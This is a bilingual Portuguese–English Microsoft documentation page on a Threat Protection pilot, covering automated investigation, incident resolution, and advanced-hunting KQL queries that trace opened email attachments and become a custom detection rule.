### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="8ca96-229">Analisar as informações do usuário [Microsoft Cloud app Security]</span><span class="sxs-lookup"><span data-stu-id="8ca96-229">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="8ca96-230">Na página incidente, clique na guia **usuários** para exibir a lista de usuários envolvidos no ataque.</span><span class="sxs-lookup"><span data-stu-id="8ca96-230">On the incident page, click the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="8ca96-231">A tabela contém informações adicionais sobre cada usuário, incluindo a pontuação de **prioridade de investigação** de cada usuário.</span><span class="sxs-lookup"><span data-stu-id="8ca96-231">The table contains additional information about each user, including each user’s **Investigation Priority** score.</span></span>

<span data-ttu-id="8ca96-232">Clique no nome de usuário para abrir a página de perfil do usuário, onde a investigação adicional pode ser conduzida.</span><span class="sxs-lookup"><span data-stu-id="8ca96-232">Click the username to open the user’s profile page where further investigation can be conducted.</span></span> <span data-ttu-id="8ca96-233">[Leia mais sobre a investigação de usuários arriscados](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span><span class="sxs-lookup"><span data-stu-id="8ca96-233">[Read more about investigating risky users](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span></span>
<br>
<span data-ttu-id="8ca96-234"></span><span class="sxs-lookup"><span data-stu-id="8ca96-234"></span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="8ca96-235">Investigação e correção automatizadas</span><span class="sxs-lookup"><span data-stu-id="8ca96-235">Automated investigation and remediation</span></span>
>[!NOTE]
><span data-ttu-id="8ca96-236">Antes de orientá-lo nesta simulação, Assista ao vídeo a seguir para se familiarizar com o que é a AutoCorreção automatizada, onde encontrá-lo no portal e como ele pode ajudar em suas operações de segurança:</span><span class="sxs-lookup"><span data-stu-id="8ca96-236">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="8ca96-237">Navegue de volta para o incidente no portal da central de segurança do Microsoft 365.</span><span class="sxs-lookup"><span data-stu-id="8ca96-237">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="8ca96-238">A guia **investigações** na página **incidente** mostra as investigações automatizadas que foram acionadas pelo Azure ATP e pelo Microsoft defender ATP.</span><span class="sxs-lookup"><span data-stu-id="8ca96-238">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Azure ATP and Microsoft Defender ATP.</span></span> <span data-ttu-id="8ca96-239">A captura de tela abaixo exibe apenas a investigação automatizada disparada pelo Microsoft defender ATP.</span><span class="sxs-lookup"><span data-stu-id="8ca96-239">The screenshot below displays only the automated investigation triggered by Microsoft Defender ATP.</span></span> <span data-ttu-id="8ca96-240">Por padrão, o Microsoft defender ATP corrige automaticamente os artefatos encontrados na fila que requer correção.</span><span class="sxs-lookup"><span data-stu-id="8ca96-240">By default, Microsoft Defender ATP automatically remediates the artifacts found in the queue which requires remediation.</span></span>


<span data-ttu-id="8ca96-242">Clique no alerta que disparou uma investigação para abrir a página **detalhes da investigação** .</span><span class="sxs-lookup"><span data-stu-id="8ca96-242">Click the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="8ca96-243">Você verá o seguinte:</span><span class="sxs-lookup"><span data-stu-id="8ca96-243">You’ll see the following:</span></span>
- <span data-ttu-id="8ca96-244">Alerta (s) que disparou a investigação automatizada.</span><span class="sxs-lookup"><span data-stu-id="8ca96-244">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="8ca96-245">Usuários e dispositivos afetados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-245">Impacted users and devices.</span></span> <span data-ttu-id="8ca96-246">Se forem encontrados indicadores em dispositivos adicionais, esses dispositivos adicionais também serão listados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-246">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="8ca96-247">Lista de evidências.</span><span class="sxs-lookup"><span data-stu-id="8ca96-247">List of evidence.</span></span> <span data-ttu-id="8ca96-248">As entidades encontradas e analisadas, como arquivos, processos, serviços, drivers e endereços de rede.</span><span class="sxs-lookup"><span data-stu-id="8ca96-248">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="8ca96-249">Essas entidades são analisadas para possíveis relações com o alerta e classificadas como benignas ou mal-intencionadas.</span><span class="sxs-lookup"><span data-stu-id="8ca96-249">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="8ca96-250">Ameaças encontradas.</span><span class="sxs-lookup"><span data-stu-id="8ca96-250">Threats found.</span></span> <span data-ttu-id="8ca96-251">Ameaças conhecidas encontradas durante a investigação.</span><span class="sxs-lookup"><span data-stu-id="8ca96-251">Known threats that are found during the investigation.</span></span>

>[!NOTE]
><span data-ttu-id="8ca96-252">Dependendo do tempo, a investigação automatizada ainda pode estar em execução.</span><span class="sxs-lookup"><span data-stu-id="8ca96-252">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="8ca96-253">Aguarde alguns minutos para que o processo seja concluído antes de coletar e analisar as evidências e revisar os resultados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-253">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="8ca96-254">Atualize a página **detalhes da investigação** para obter as últimas descobertas.</span><span class="sxs-lookup"><span data-stu-id="8ca96-254">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="8ca96-256">Durante a investigação automatizada, o Microsoft defender ATP identificou o processo de notepad.exe, que foi injetado como um dos artefatos que exigem correção.</span><span class="sxs-lookup"><span data-stu-id="8ca96-256">During the automated investigation, Microsoft Defender ATP identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="8ca96-257">O Microsoft defender ATP interrompe automaticamente a injeção de processo suspeita como parte da correção automatizada.</span><span class="sxs-lookup"><span data-stu-id="8ca96-257">Microsoft Defender ATP automatically stops the suspicious process injection as part of the automated remediation.</span></span> 

<span data-ttu-id="8ca96-258">Você pode ver <i>notepad.exe</i> desaparecer da lista de processos em execução no dispositivo de teste.</span><span class="sxs-lookup"><span data-stu-id="8ca96-258">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="8ca96-259">Resolver o incidente</span><span class="sxs-lookup"><span data-stu-id="8ca96-259">Resolve the incident</span></span>

<span data-ttu-id="8ca96-260">Após a investigação ser concluída e confirmada para ser corrigida, feche o incidente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-260">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="8ca96-261">Clique em **gerenciar incidente**.</span><span class="sxs-lookup"><span data-stu-id="8ca96-261">Click **Manage incident**.</span></span> <span data-ttu-id="8ca96-262">Defina o status como **resolver incidente** e selecione a classificação relevante.</span><span class="sxs-lookup"><span data-stu-id="8ca96-262">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="8ca96-263">Depois que o incidente for resolvido, ele fechará todos os alertas associados no centro de segurança do Microsoft 365 e nos portais relacionados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-263">Once the incident is resolved, it will close all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>

 

<br>
<span data-ttu-id="8ca96-265">Isso envolve a simulação de ataque para o gerenciamento de incidentes e os cenários de investigação e correção automatizados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-265">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="8ca96-266">A próxima simulação o levará através da busca proativa de ameaças de arquivos possivelmente mal-intencionados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-266">The next simulation will take you through proactive threat hunting for potentially-malicious files.</span></span> 

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="8ca96-267">Cenário de busca avançada</span><span class="sxs-lookup"><span data-stu-id="8ca96-267">Advanced hunting scenario</span></span>

>[!NOTE]
><span data-ttu-id="8ca96-268">Antes de orientá-lo pela simulação, Assista ao vídeo a seguir para entender os conceitos avançados de busca, confira onde você pode encontrá-lo no portal e saiba como ele pode ajudá-lo em suas operações de segurança:</span><span class="sxs-lookup"><span data-stu-id="8ca96-268">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="8ca96-269">Requisitos de ambiente de caça</span><span class="sxs-lookup"><span data-stu-id="8ca96-269">Hunting environment requirements</span></span>
<span data-ttu-id="8ca96-270">Há uma única caixa de correio e dispositivo interno necessários para este cenário.</span><span class="sxs-lookup"><span data-stu-id="8ca96-270">There is a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="8ca96-271">Você também precisará de uma conta de email externa para enviar a mensagem de teste.</span><span class="sxs-lookup"><span data-stu-id="8ca96-271">You will also need an external email account to send the test message.</span></span>

1.  <span data-ttu-id="8ca96-272">Verifique se o seu locatário [ativou a proteção contra ameaças da Microsoft](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span><span class="sxs-lookup"><span data-stu-id="8ca96-272">Verify that your tenant has [enabled Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>
2.  <span data-ttu-id="8ca96-273">Identificar uma caixa de correio de destino a ser usada para receber emails.</span><span class="sxs-lookup"><span data-stu-id="8ca96-273">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="8ca96-274">a.</span><span class="sxs-lookup"><span data-stu-id="8ca96-274">a.</span></span>  <span data-ttu-id="8ca96-275">Esta caixa de correio deve ser monitorada pelo Office 365 ATP b.</span><span class="sxs-lookup"><span data-stu-id="8ca96-275">This mailbox must be monitored by Office 365 ATP b.</span></span>  <span data-ttu-id="8ca96-276">O dispositivo do requisito 3 precisa acessar esta caixa de correio</span><span class="sxs-lookup"><span data-stu-id="8ca96-276">The device from requirement 3 needs to access this mailbox</span></span>
3.  <span data-ttu-id="8ca96-277">Configurar um dispositivo de teste: a.</span><span class="sxs-lookup"><span data-stu-id="8ca96-277">Configure a test device: a.</span></span>  <span data-ttu-id="8ca96-278">Verifique se você está usando a versão 1903 ou posterior do Windows 10.</span><span class="sxs-lookup"><span data-stu-id="8ca96-278">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="8ca96-279">b.</span><span class="sxs-lookup"><span data-stu-id="8ca96-279">b.</span></span>  <span data-ttu-id="8ca96-280">Ingresse o dispositivo de teste no domínio de teste.</span><span class="sxs-lookup"><span data-stu-id="8ca96-280">Join the test device to the test domain.</span></span>
    <span data-ttu-id="8ca96-281">c.</span><span class="sxs-lookup"><span data-stu-id="8ca96-281">c.</span></span>  <span data-ttu-id="8ca96-282">[Ative o Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="8ca96-282">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="8ca96-283">Se você estiver tendo problemas para habilitar o Windows Defender Antivirus, consulte [Este tópico de solução de problemas](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="8ca96-283">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="8ca96-284">d.</span><span class="sxs-lookup"><span data-stu-id="8ca96-284">d.</span></span>  <span data-ttu-id="8ca96-285">[Integração com o Microsoft defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="8ca96-285">[Onboard to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="8ca96-286">Executar a simulação</span><span class="sxs-lookup"><span data-stu-id="8ca96-286">Run the simulation</span></span>
1.  <span data-ttu-id="8ca96-287">A partir de uma conta de email externa, envie um email para a caixa de correio identificada na etapa 2 da seção requisitos do ambiente de teste.</span><span class="sxs-lookup"><span data-stu-id="8ca96-287">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="8ca96-288">Incluir um anexo que será permitido por meio de qualquer política de filtro de email existente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-288">Include an attachment that will be allowed through any existing email filter policies.</span></span>  <span data-ttu-id="8ca96-289">Este arquivo não precisa ser mal-intencionado ou executável.</span><span class="sxs-lookup"><span data-stu-id="8ca96-289">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="8ca96-290">Os tipos de arquivo sugeridos são <i>. pdf</i>, <i>. exe</i> (se permitido) ou documento do Office, como um arquivo do Word.</span><span class="sxs-lookup"><span data-stu-id="8ca96-290">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2.  <span data-ttu-id="8ca96-291">Abra o email enviado do dispositivo configurado conforme definido na etapa 3 da seção requisitos do ambiente de teste.</span><span class="sxs-lookup"><span data-stu-id="8ca96-291">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="8ca96-292">Abra o anexo ou salve o arquivo no dispositivo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-292">Either open the attachment or save the file to the device.</span></span>


<span data-ttu-id="8ca96-293">**Caça**</span><span class="sxs-lookup"><span data-stu-id="8ca96-293">**Go hunting**</span></span>
1.  <span data-ttu-id="8ca96-294">Abra o portal do security.microsoft.com.</span><span class="sxs-lookup"><span data-stu-id="8ca96-294">Open the security.microsoft.com portal.</span></span>
2.  <span data-ttu-id="8ca96-295">Navegue até **caça > busca avançada**.</span><span class="sxs-lookup"><span data-stu-id="8ca96-295">Navigate to **Hunting > Advanced hunting**.</span></span>

     

3.  <span data-ttu-id="8ca96-297">Criar uma consulta que comece coletando eventos de email.</span><span class="sxs-lookup"><span data-stu-id="8ca96-297">Build a query that starts by gathering email events.</span></span>
    <span data-ttu-id="8ca96-298">a.</span><span class="sxs-lookup"><span data-stu-id="8ca96-298">a.</span></span>  <span data-ttu-id="8ca96-299">No painel de consulta, selecione novo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-299">From the query pane, select New.</span></span>
    <span data-ttu-id="8ca96-300">b.</span><span class="sxs-lookup"><span data-stu-id="8ca96-300">b.</span></span>  <span data-ttu-id="8ca96-301">Clique duas vezes na tabela EmailEvents do esquema.</span><span class="sxs-lookup"><span data-stu-id="8ca96-301">Double-click on the EmailEvents table from the schema.</span></span>

```
EmailEvents 
```                                        

   <span data-ttu-id="8ca96-302">c.</span><span class="sxs-lookup"><span data-stu-id="8ca96-302">c.</span></span>   <span data-ttu-id="8ca96-303">Alterar o intervalo de tempo para as últimas 24 horas.</span><span class="sxs-lookup"><span data-stu-id="8ca96-303">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="8ca96-304">Supondo que o email enviado quando você executou a simulação acima estava nas últimas 24 horas, caso contrário, altere o intervalo de tempo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-304">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>
   <span data-ttu-id="8ca96-305"></span></span> 


   <span data-ttu-id="8ca96-307">d.</span><span class="sxs-lookup"><span data-stu-id="8ca96-307">d.</span></span>   <span data-ttu-id="8ca96-308">Execute a consulta.</span><span class="sxs-lookup"><span data-stu-id="8ca96-308">Run the query.</span></span>  <span data-ttu-id="8ca96-309">Você pode ter muitos resultados, dependendo do ambiente do piloto.</span><span class="sxs-lookup"><span data-stu-id="8ca96-309">You may have many results depending on the environment for the pilot.</span></span>  

>[!NOTE]
><span data-ttu-id="8ca96-310">Consulte a próxima etapa para filtrar opções para limitar o retorno de dados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-310">See the next step for filtering options to limit data return.</span></span>

    

>[!NOTE]
><span data-ttu-id="8ca96-312">A busca avançada exibe resultados de consulta como dados tabulares.</span><span class="sxs-lookup"><span data-stu-id="8ca96-312">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="8ca96-313">Você também pode optar por exibir os dados em outros tipos de formato, como gráficos.</span><span class="sxs-lookup"><span data-stu-id="8ca96-313">You can also opt to view the data in other format types such as charts.</span></span>    

   <span data-ttu-id="8ca96-314">e.</span><span class="sxs-lookup"><span data-stu-id="8ca96-314">e.</span></span>   <span data-ttu-id="8ca96-315">Examine os resultados e veja se é possível identificar o email que você abriu.</span><span class="sxs-lookup"><span data-stu-id="8ca96-315">Look at the results and see if you can identify the email you opened.</span></span>  <span data-ttu-id="8ca96-316">Pode levar até 2 horas para que a mensagem apareça na busca avançada.</span><span class="sxs-lookup"><span data-stu-id="8ca96-316">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="8ca96-317">Se o ambiente de email for grande e houver muitos resultados, talvez você queira usar a **opção Mostrar filtros** para localizar a mensagem.</span><span class="sxs-lookup"><span data-stu-id="8ca96-317">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span> 

   <span data-ttu-id="8ca96-318">No exemplo, o email foi enviado de uma conta do Yahoo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-318">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="8ca96-319">Clique no **+** ícone ao lado de **yahoo.com** sob a seção SenderFromDomain e, em seguida, clique em **aplicar** para adicionar o domínio selecionado à consulta.</span><span class="sxs-lookup"><span data-stu-id="8ca96-319">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span>  <span data-ttu-id="8ca96-320">Você deve usar a conta de domínio ou de email que foi usada para enviar a mensagem de teste na etapa 1 da execução da simulação para filtrar os resultados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-320">You should use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span>  <span data-ttu-id="8ca96-321">Execute novamente a consulta para obter um conjunto de resultados menor para verificar se você vê a mensagem da simulação.</span><span class="sxs-lookup"><span data-stu-id="8ca96-321">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>
   
    


```
EmailEvents 
| where SenderMailFromDomain == "yahoo.com"
```

   <span data-ttu-id="8ca96-324">f.</span><span class="sxs-lookup"><span data-stu-id="8ca96-324">f.</span></span>   <span data-ttu-id="8ca96-325">Clique nas linhas resultantes da consulta para que você possa inspecionar o registro.</span><span class="sxs-lookup"><span data-stu-id="8ca96-325">Click the resulting rows from the query so you can inspect the record.</span></span>
   <span data-ttu-id="8ca96-326"></span><span class="sxs-lookup"><span data-stu-id="8ca96-326"></span></span> 


4.  <span data-ttu-id="8ca96-327">Agora que você verificou que pode ver o email, adicione um filtro para os anexos.</span><span class="sxs-lookup"><span data-stu-id="8ca96-327">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="8ca96-328">Concentre-se em todos os emails com anexos no ambiente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-328">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="8ca96-329">Para esse cenário, concentre-se em emails de entrada, não aqueles que estão sendo enviados de seu ambiente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-329">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="8ca96-330">Remova qualquer filtro adicionado para localizar sua mensagem e adicionar "| onde **AttachmentCount > 0** e **EmailDirection**  ==  **"entrada"** "</span><span class="sxs-lookup"><span data-stu-id="8ca96-330">Remove any filters you have added to locate your message and add “| where **AttachmentCount > 0** and **EmailDirection** == **“Inbound””**</span></span>

<span data-ttu-id="8ca96-331">A consulta a seguir mostrará o resultado com uma lista mais curta do que a consulta inicial de todos os eventos de email:</span><span class="sxs-lookup"><span data-stu-id="8ca96-331">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"

```

5.  <span data-ttu-id="8ca96-332">Em seguida, inclua as informações sobre o anexo (como: nome de arquivo, hashes) para o conjunto de resultados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-332">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="8ca96-333">Para fazer isso, ingresse na tabela **EmailAttachmentInfo** .</span><span class="sxs-lookup"><span data-stu-id="8ca96-333">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="8ca96-334">Os campos comuns a serem usados para ingressar, neste caso, são **NetworkMessageId** e **RecipientObjectId**.</span><span class="sxs-lookup"><span data-stu-id="8ca96-334">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

<span data-ttu-id="8ca96-335">A consulta a seguir também inclui uma linha adicional "| **Project-Rename EmailTimestamp = timestamp**"que ajudará a identificar qual carimbo de data/hora estava relacionado ao email em relação aos carimbos de data/hora relacionados às ações de arquivo que você adicionará na próxima etapa.</span><span class="sxs-lookup"><span data-stu-id="8ca96-335">The following query also includes an additional line “| **project-rename EmailTimestamp=Timestamp**” that will help identify which timestamp was related to the email versus timestamps related to file actions which you will add in the next step.</span></span>

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
```

6.  <span data-ttu-id="8ca96-336">Em seguida, use o valor **SHA256** da tabela **EmailAttachmentInfo** para localizar **DeviceFileEvents** (ações de arquivo que ocorreram no ponto de extremidade) desse hash.</span><span class="sxs-lookup"><span data-stu-id="8ca96-336">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span>  <span data-ttu-id="8ca96-337">O campo comum aqui será o hash SHA256 para o anexo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-337">The common field here will be the SHA256 hash for the attachment.</span></span>

<span data-ttu-id="8ca96-338">A tabela resultante agora inclui detalhes do ponto de extremidade (Microsoft defender ATP), como nome do dispositivo, qual ação foi realizada (neste caso, filtrados para incluir apenas eventos filecreated) e onde o arquivo foi armazenado.</span><span class="sxs-lookup"><span data-stu-id="8ca96-338">The resulting table now includes details from the endpoint (Microsoft Defender ATP) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="8ca96-339">O nome da conta associado ao processo também será incluído.</span><span class="sxs-lookup"><span data-stu-id="8ca96-339">The account name associated with the process will also be included.</span></span>

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
```

<span data-ttu-id="8ca96-340">Agora você criou uma consulta que identificará todos os emails de entrada onde o usuário abriu ou salvou o anexo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-340">You have now created a query that will identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="8ca96-341">Você também pode refinar essa consulta para filtrar domínios de remetente específicos, tamanhos de arquivos, tipos de arquivo e assim por diante.</span><span class="sxs-lookup"><span data-stu-id="8ca96-341">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7.  <span data-ttu-id="8ca96-342">As funções são uma espécie especial de participação que permitem extrair mais dados de TI sobre um arquivo como suas predominância, as informações de signatário e emissor, etc.  Para obter mais detalhes sobre o arquivo, use a função **fileprofile ()** enriquecimento:</span><span class="sxs-lookup"><span data-stu-id="8ca96-342">Functions are a special sort of join which let you pull more TI data about a file like its prevalence, signer and issuer info, etc.  To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
| distinct SHA1
| invoke FileProfile()
```


<span data-ttu-id="8ca96-343">**Criar uma detecção**</span><span class="sxs-lookup"><span data-stu-id="8ca96-343">**Create a detection**</span></span>

<span data-ttu-id="8ca96-344">Depois de criar uma consulta que identifique informações que você gostaria de **receber alertas** sobre se elas ocorrerem no futuro, você poderá criar uma detecção personalizada da consulta.</span><span class="sxs-lookup"><span data-stu-id="8ca96-344">Once you have created a query that identifies information that you would like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span> 

<span data-ttu-id="8ca96-345">As detecções personalizadas executarão a consulta de acordo com a frequência que você definir, e os resultados das consultas criarão alertas de segurança, com base nos ativos afetados que você escolher.</span><span class="sxs-lookup"><span data-stu-id="8ca96-345">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="8ca96-346">Esses alertas serão correlacionados a incidentes e podem ser classificados como qualquer outro alerta de segurança gerado por um dos produtos.</span><span class="sxs-lookup"><span data-stu-id="8ca96-346">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1.  <span data-ttu-id="8ca96-347">Na página consulta, remova as linhas 7 e 8 que foram adicionadas na etapa 7 das instruções go caça e clique em **criar regra de detecção**.</span><span class="sxs-lookup"><span data-stu-id="8ca96-347">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span> 
    
     

>[!NOTE]
><span data-ttu-id="8ca96-349">Se você clicar em **criar regra de detecção** e tiver erros de sintaxe em sua consulta, sua regra de detecção não será salva.</span><span class="sxs-lookup"><span data-stu-id="8ca96-349">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won’t be saved.</span></span> <span data-ttu-id="8ca96-350">Verifique novamente sua consulta para garantir que não haja erros.</span><span class="sxs-lookup"><span data-stu-id="8ca96-350">Double-check your query to ensure there’s no errors.</span></span> 


2.  <span data-ttu-id="8ca96-351">Preencha os campos obrigatórios com as informações que permitirão que a equipe de segurança entenda o alerta, por que ele foi gerado e quais ações você espera que eles realizem.</span><span class="sxs-lookup"><span data-stu-id="8ca96-351">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span> 

    

<span data-ttu-id="8ca96-353">Certifique-se de preencher os campos com clareza para ajudar a dar ao usuário próximo uma decisão informada sobre esse alerta de regra de detecção</span><span class="sxs-lookup"><span data-stu-id="8ca96-353">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span> 

3.  <span data-ttu-id="8ca96-354">Selecione quais entidades serão impactadas neste alerta.</span><span class="sxs-lookup"><span data-stu-id="8ca96-354">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="8ca96-355">Nesse caso, selecione **dispositivo** e **caixa de correio**.</span><span class="sxs-lookup"><span data-stu-id="8ca96-355">In this case, select **Device** and **Mailbox**.</span></span>

    
 

4.  <span data-ttu-id="8ca96-357">Determine quais ações devem ocorrer se o alerta for disparado.</span><span class="sxs-lookup"><span data-stu-id="8ca96-357">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="8ca96-358">Nesse caso, execute uma verificação antivírus, embora outras ações possam ser executadas.</span><span class="sxs-lookup"><span data-stu-id="8ca96-358">In this case, run an antivirus scan, though other actions could be taken.</span></span> 

     

5.  <span data-ttu-id="8ca96-360">Selecione o escopo da regra de alerta.</span><span class="sxs-lookup"><span data-stu-id="8ca96-360">Select the scope for the alert rule.</span></span> <span data-ttu-id="8ca96-361">Como essa consulta envolve dispositivos, os grupos de dispositivos são relevantes nessa detecção personalizada de acordo com o contexto ATP do Microsoft defender.</span><span class="sxs-lookup"><span data-stu-id="8ca96-361">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender ATP context.</span></span>  <span data-ttu-id="8ca96-362">Ao criar uma detecção personalizada que não inclua dispositivos como entidades impactadas, o escopo não se aplica.</span><span class="sxs-lookup"><span data-stu-id="8ca96-362">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>  

     

<span data-ttu-id="8ca96-364">Para este piloto, talvez você queira limitar essa regra a um subconjunto de dispositivos de teste em seu ambiente de produção.</span><span class="sxs-lookup"><span data-stu-id="8ca96-364">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6.  <span data-ttu-id="8ca96-365">Selecione **Criar**.</span><span class="sxs-lookup"><span data-stu-id="8ca96-365">Select **Create**.</span></span> <span data-ttu-id="8ca96-366">Em seguida, selecione **regras de detecção personalizadas** no painel de navegação.</span><span class="sxs-lookup"><span data-stu-id="8ca96-366">Then, select **Custom detection rules** from the navigation panel.</span></span>
 
     

     

<span data-ttu-id="8ca96-369">Nessa página, você pode selecionar a regra de detecção que abrirá uma página de detalhes.</span><span class="sxs-lookup"><span data-stu-id="8ca96-369">From this page, you can select the detection rule which will open a details page.</span></span> 

 

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="8ca96-371">Treinamento adicional de busca avançada em exercícios</span><span class="sxs-lookup"><span data-stu-id="8ca96-371">Additional advanced hunting walk-through exercises</span></span>

